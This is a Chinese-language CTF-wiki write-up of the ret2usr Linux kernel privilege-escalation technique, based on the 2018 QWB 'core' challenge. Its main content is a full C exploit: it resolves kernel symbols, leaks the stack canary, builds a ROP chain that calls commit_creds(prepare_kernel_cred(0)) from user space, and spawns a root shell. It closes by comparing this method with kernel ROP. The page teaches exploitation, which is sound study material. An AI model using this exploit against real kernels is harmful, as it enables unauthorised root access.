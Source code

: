 # ret2usr
ret2usr 攻击利用了 **用户空间的进程不能访问内核空间，但内核空间能访问用户空间** 这个特性来定向内核代码或数据流指向用户控件，以 `ring 0` 特权执行用户空间代码完成提权等操作。

## 2018 强网杯 - core
上一篇分析了使用 [kernel rop](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/kernel/kernel_rop/#kernel-rop-2018-core) 完成提权拿 shell 的步骤，这一篇分析一下使用 ret2usr 手法获取 root shell。

题目就不再分析了，直接分析 exp。

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
#include <stdint.h>

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
	__asm__("mov user_cs, cs;"
			"mov user_ss, ss;"
			"mov user_sp, rsp;"
			"pushf;"
			"pop user_rflags;"
			);
	puts("[*]status has been saved.");
}


void get_shell(void){
    system("/bin/sh");
}

size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t raw_vmlinux_base = 0xffffffff81000000;
size_t vmlinux_base = 0;
size_t find_symbols()
{
	FILE* kallsyms_fd = fopen("/tmp/kallsyms", "r");
	/* FILE* kallsyms_fd = fopen("./test_kallsyms", "r"); */

	if(kallsyms_fd < 0)
	{
		puts("[*]open kallsyms error!");
		exit(0);
	}

	char buf[0x30] = {0};
	while(fgets(buf, 0x30, kallsyms_fd))
	{
		if(commit_creds & prepare_kernel_cred)
			return 0;

		if(strstr(buf, "commit_creds") && !commit_creds)
		{
			/* puts(buf); */
			char hex[20] = {0};
			strncpy(hex, buf, 16);
			/* printf("hex: %s\n", hex); */
			sscanf(hex, "%llx", &commit_creds);
			printf("commit_creds addr: %p\n", commit_creds);
			vmlinux_base = commit_creds - 0x9c8e0;
			printf("vmlinux_base addr: %p\n", vmlinux_base);
		}

		if(strstr(buf, "prepare_kernel_cred") && !prepare_kernel_cred)
		{
			/* puts(buf); */
			char hex[20] = {0};
			strncpy(hex, buf, 16);
			sscanf(hex, "%llx", &prepare_kernel_cred);
			printf("prepare_kernel_cred addr: %p\n", prepare_kernel_cred);
			vmlinux_base = prepare_kernel_cred - 0x9cce0;
			/* printf("vmlinux_base addr: %p\n", vmlinux_base); */
		}
	}

	if(!(prepare_kernel_cred & commit_creds))
	{
		puts("[*]Error!");
		exit(0);
	}

}


void get_root()
{
	char* (*pkc)(int) = prepare_kernel_cred;
	void (*cc)(char*) = commit_creds;
	(*cc)((*pkc)(0));
	/* puts("[*] root now."); */
}

void set_off(int fd, long long idx)
{
	printf("[*]set off to %ld\n", idx);
	ioctl(fd, 0x6677889C, idx);
}

void core_read(int fd, char *buf)
{
	puts("[*]read to buf.");
	ioctl(fd, 0x6677889B, buf);

}

void core_copy_func(int fd, long long size)
{
	printf("[*]copy from user with size: %ld\n", size);
	ioctl(fd, 0x6677889A, size);
}


int main(void)
{
	find_symbols();
	size_t offset = vmlinux_base - raw_vmlinux_base;
	save_status();

	int fd = open("/proc/core",O_RDWR);
	set_off(fd, 0x40);
	size_t buf[0x40/8];
	core_read(fd, buf);
	size_t canary = buf[0];
	printf("[*]canary : %p\n", canary);

	size_t rop[0x30] = {0};
	rop[8] = canary ; 
	rop[10] = (size_t)get_root;
	rop[11] = 0xffffffff81a012da + offset; // swapgs; popfq; ret
	rop[12] = 0;
	rop[13] = 0xffffffff81050ac2 + offset; // iretq; ret;
	rop[14] = (size_t)get_shell; 
	rop[15] = user_cs;
	rop[16] = user_rflags;
	rop[17] = user_sp;
	rop[18] = user_ss;

	puts("[*] DEBUG: ");
	getchar();
	write(fd, rop, 0x30 * 8);
	core_copy_func(fd, 0xffffffffffff0000 | (0x100));
}
```
比较一下和 [kernel rop](https://github.com/bash-c/pwn_repo/blob/master/QWB2018_core/rop.c) 做法的异同。

1. 通过读取 `/tmp/kallsyms` 获取 `commit_creds` 和 `prepare_kernel_cred` 的方法相同，同时根据这些偏移能确定 gadget 的地址。
2. leak canary 的方法也相同，通过控制全局变量 `off` 读出 canary。
3. 与 kernel rop 做法不同的是 rop 链的构造
	1. kernel rop 通过 内核空间的 rop 链达到执行 `commit_creds(prepare_kernel_cred(0))` 以提权目的，之后通过 `swapgs; iretq` 等返回到用户态，执行用户空间的 `system("/bin/sh")` 获取 shell
	2. ret2usr 做法中，直接返回到用户空间构造的 `commit_creds(prepare_kernel_cred(0))` （通过函数指针实现）来提权，虽然这两个函数位于内核空间，但此时我们是 `ring 0` 特权，因此可以正常运行。之后也是通过 `swapgs; iretq` 返回到用户态来执行用户空间的 `system("/bin/sh")`

从这两种做法的比较可以体会出之所以要 `ret2usr`，是因为一般情况下在用户空间构造特定目的的代码要比在内核空间简单得多。



